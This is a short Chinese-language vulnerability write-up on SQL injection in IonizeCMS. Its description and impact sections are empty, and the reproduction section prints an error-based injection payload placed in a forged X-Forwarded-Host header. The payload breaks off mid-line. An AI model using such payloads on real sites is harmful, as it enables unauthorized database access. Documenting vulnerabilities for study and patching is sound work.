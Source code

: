 IonizeCMS sql注入
=================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

伪造HTTP头注入 在抓包哇：

    X-Forwarded-Host: 'and(select 1 from(select count(*),concat((select concat(0x5e5e5e,version(),0x5e5e5e) from informa

